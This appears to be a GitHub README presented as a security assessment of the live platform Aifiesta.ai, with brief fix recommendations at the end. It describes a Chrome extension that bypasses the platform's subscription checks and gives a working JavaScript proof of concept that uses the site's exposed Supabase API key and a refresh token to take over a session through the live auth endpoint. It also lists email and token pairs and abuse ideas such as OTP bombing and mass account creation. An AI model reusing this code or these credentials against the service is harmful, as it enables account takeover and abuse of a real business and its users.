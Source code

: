 # Aifiesta.ai Security Assessment Report

## 📋 Disclaimer

**IMPORTANT LEGAL NOTICE:**

This security assessment was conducted for **educational and security research purposes only**. The intention is to demonstrate potential security vulnerabilities with live proof-of-concept to help improve the platform's security posture.

- ❌ **NOT intended to harm the business or its operations**
- ❌ **NOT intended for malicious exploitation**
- ✅ **Conducted to identify and responsibly disclose security issues**
- ✅ **All testing performed on publicly accessible endpoints**

---

## 🚀 Chrome Extension - Proof of Concept

### Installation

```bash
chrome://extensions/ → Developer Mode → Load unpacked
```

### Demonstrated Vulnerabilities

- **Client-side subscription bypass** (frontend validation only)
- **Email field manipulation** (privacy concern demonstration)
- **UI state manipulation** (visual bypass proof)

---

## ⚠️ Security Risk: Exposed API Infrastructure

**Finding:** Frontend exposes Supabase API credentials enabling:

- **Automated account creation** at scale
- **Email service abuse** through OTP bombing
- **Resource consumption attacks**
- **Platform spam and abuse**

### Proof of Concept - Account Access

_For security testing only:_

```javascript
async function login1337(token) {
    const res = await fetch('https://ubipcxqbjqyzcisxiugn.supabase.co/auth/v1/token?grant_type=refresh_token', {
        method: 'POST',
        headers: {
            'apikey': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InViaXBjeHFianF5emNpc3hpdWduIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE1ODAzMzAsImV4cCI6MjA2NzE1NjMzMH0.adJrFDJGZNWQCdQKIiOtMTrxkO3_z7s0-iwO5yOlZGU',
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            refresh_token: token
        })
    });

    const data = await res.json();
    if (res.ok) {
        localStorage.setItem("sb-ubipcxqbjqyzcisxiugn-auth-token", JSON.stringify(data));
        console.log("🚀 Logged in successfully");
        return data;
    }
    throw new Error(data.error_description || 'Login failed');
};

login1337("gxmnlks75rgc")
=
```

### Test Data Format

```
email,refreshToken
jboi86qqseoy@dugmail.com,bpznkxnzyr22
tly8246eqcgd@corhash.net,kl46pu7sh4ea
2kgbdziolefy@dugmail.com,r23kfz2twfvt
```

---

## 🛡️ Recommendations

1. **Implement server-side subscription validation**
2. **Secure API keys and rotate regularly**
3. **Add rate limiting for account creation**
4. **Implement CAPTCHA for OTP requests**
